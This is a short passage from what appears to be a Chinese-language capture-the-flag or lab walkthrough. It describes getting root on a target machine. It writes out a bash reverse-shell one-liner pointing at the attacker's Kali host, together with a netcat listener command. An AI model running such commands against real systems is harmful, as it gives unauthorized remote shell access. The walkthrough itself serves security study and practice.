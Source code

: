 

当然也可以尝试从网站重新登录，以`root`的身份，因为在前面查看`/etc/passwd`的时候，发现`cyber`是在其中的，说明`root`也有可能是能够登录网站的

![](./pic-2/24.jpg)

```
bash -i >& /dev/tcp/192.168.1.16/9999 0>&1	在靶机执行
nc -lvvp 9999	在kali执行
```

![](./pic-2/25.jpg)





提权到root成功

![](./pic-2/26.jpg)
